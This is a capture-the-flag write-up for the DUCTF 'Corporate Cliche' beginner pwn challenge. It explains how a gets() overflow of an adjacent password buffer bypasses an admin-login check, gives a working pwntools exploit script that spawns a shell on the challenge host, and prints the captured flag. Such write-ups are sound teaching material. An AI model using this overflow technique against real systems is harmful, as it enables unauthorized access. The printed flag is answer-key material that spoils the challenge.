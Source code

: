 ```yaml
---
layout: writeup
title: Corporate Cliche
tags: pwn beginner
---
```


We are given a binary, some C source code and a remote instance to connect to.

Looking at the source code, our goal is to get the `open_admin_session()` function to run and pop a shell.

We have the credentials hard coded into the app:

{% highlight C %}
const char* logins[][2] = {

    {"admin", "🇦🇩🇲🇮🇳"},

    {"guest", "guest"},

};
{% endhighlight %}

Connecting to the program and logging in with the guest account just brings up a useless email. Trying to login with the username `admin` gives us an error.

```
Enter your username: admin
-> Admin login is disabled. Access denied.
```

Looking back at the source code, after you enter a username, it checks to see if it is `admin` and if so it prints an error and exits. 

{% highlight C %}
    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }
{% endhighlight %}

There is a way to bypass this however. If we look at how the `username` and `password` variables are initialised, we can see they are set to a 32 byte buffer, straight after each other in memory

{% highlight C %}
    char password[32];
    char username[32];
{% endhighlight %}

Looking at how the program gets the password, we can see it uses `gets()` which is an insecure function as it allows us to write past the buffer.

{% highlight C %}
    printf("Enter your password: ");
    gets(password);
{% endhighlight %}

This means we overwrite the `username` variable after it checks whether we are trying to login as admin or not. To test this, I connect to the app, type in my username as `guest` and in type `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAadmin` and this bypasses the username check!

```
Enter your username: guest
Enter your password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAadmin
-> Incorrect password for user 'admin'. Access denied.

```

Now all we need to go is make sure the password for admin is entered correctly. The program uses `strcmp()` to check the password which will read a string up to a null terminator (`\x00`).

{% highlight C %}
if (strcmp(password, logins[i][1]) == 0) {
                printf("-> Password correct. Access granted.\n");
                if (strcmp(username, "admin") == 0) {
                    open_admin_session();
                } else {
                    print_email();
                }
{% endhighlight %}

We can use pwntools in Python to create a payload to do this easily.

{% highlight python %}
from pwn import *
from pwn import context

context.binary = './email_server'
context.log_level = "debug"

p = remote("chal.2025.ductf.net", 30000)

p.sendlineafter(b"Enter your username: ", b"guest")

password = "🇦🇩🇲🇮🇳".encode("utf-8")
payload = password + b"\x00"

payload += b"A" * (32 - len(payload))

payload += b"admin\x00"

p.sendlineafter(b"Enter your password: ", payload)

p.interactive()
{% endhighlight %}

This script will enter `guest` as the username, bypassing the username check. It will add the admin password to the payload with a null terminator. It will then pad the of the `password` buffer with `A` characters and finally add the username `admin` to the payload (with a null terminator for good practice).

Once the script has created the payload, it will send it as the password. After running this script, we get a message that we have successfully logged in as `admin` and popped a shell!

```
[*] Switching to interactive mode
[DEBUG] Received 0x51 bytes:
    b'-> Password correct. Access granted.\n'
    b'-> Admin login successful. Opening shell...\n'
-> Password correct. Access granted.
-> Admin login successful. Opening shell...
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x16 bytes:
    b'flag.txt\n'
    b'get-flag\n'
    b'pwn\n'
flag.txt
get-flag
pwn
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x41 bytes:
    b'DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}\n'
DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}
$
```

